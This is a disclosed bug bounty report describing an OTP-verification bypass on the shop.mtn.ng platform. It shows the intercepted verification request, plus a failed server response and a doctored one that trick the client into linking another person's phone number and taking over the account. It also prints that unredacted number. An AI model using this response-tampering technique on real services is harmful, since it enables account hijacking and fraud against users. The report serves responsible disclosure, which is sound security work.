 # Ability to Add and Verify Uncontrolled Mobile Numbers Leading to Account Takeover (ATO)

## Report Details
- **Report ID**: 2762462
- **URL**: https://hackerone.com/reports/2762462
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2024-10-07T02:52:17.165Z
- **Disclosed**: 2025-03-04T13:30:06.992Z

## Reporter
- **Username**: trev0ck
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
## Summary
A critical vulnerability was identified in the OTP verification process on the shop.mtn.ng platform, which allows attackers to add and verify mobile numbers that they do not control. By tampering with the OTP verification request, an attacker can link a victim's mobile number to their account. This leads to an Account Takeover (ATO) scenario where the attacker gains full access to the victim's account without owning or controlling the victim's phone number.

## Steps to Reproduce

###  Initiate OTP Request
- Begin the login or registration process on the platform.
- Enter a valid mobile number (MSISDN) and request an OTP.

### Capture OTP Verification Request
- Use a proxy tool like **Burp Suite** or **Caido** to intercept the OTP verification request when submitting the OTP.
- The intercepted request will look like this

```http
POST /mtn_otp/index/verification/ HTTP/2
Host: shop.mtn.ng
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

ajax=1&action=verifyotp&msisdn=█████████&otp=█████████
```
### Manipulate Server Response

- Upon capturing the request, submit an incorrect OTP to receive the server's response

```json
{
  "status": 400,
  "message": "Invalid OTP",
  "msisdn": "2347037855490",
  "success": false
}
```

Modify the response in the intercepted traffic to indicate a successful verification

```json
{
  "status": 200,
  "message": "success",
  "msisdn": "2347037855490",
  "success": true
}
```
This will trick the client into thinking that the OTP was successfully verified, even though the OTP is incorrect.

- The manipulated server response now grants full access to the victim's phone number account. Even though the OTP was incorrect, the altered response bypasses the verification, which could allow the attacker to log in as the target user.

## NOTE I do not own this phone number at all and as you can see it is now linked to my account
{F3659097}

# Root Cause

- The application fails to protect against the manipulation of the OTP verification response. The server does not perform integrity checks on the response sent back to the client, allowing attackers to alter it and bypass OTP verification entirely.

## Impact

An attacker can exploit this flaw to hijack user accounts by manipulating the OTP verification response. This allows the attacker to

1. Access personal user information such as names, phone numbers, and email addresses.
2. Modify sensitive account settings like passwords, linked emails, and phone numbers.
3. Perform unauthorized actions such as transactions or purchases.
4. Further escalate the attack to other services connected to the victim's account.

## Attachments
- image.png
